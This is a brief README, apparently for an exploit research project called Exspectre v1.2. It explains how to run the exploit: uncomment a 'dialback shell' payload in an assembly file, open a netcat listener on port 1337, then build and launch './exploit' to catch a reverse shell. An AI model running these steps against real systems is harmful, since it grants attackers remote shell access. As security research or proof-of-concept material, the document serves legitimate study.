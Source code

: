 # Exspectre v1.2 Experiment

### How to run:
Make sure that the ctext for Dialback shell is uncommented in decrypt.s


```
// Shell One
> nc -lvp 1337

// Shell Two
> make
> ./exploit
```

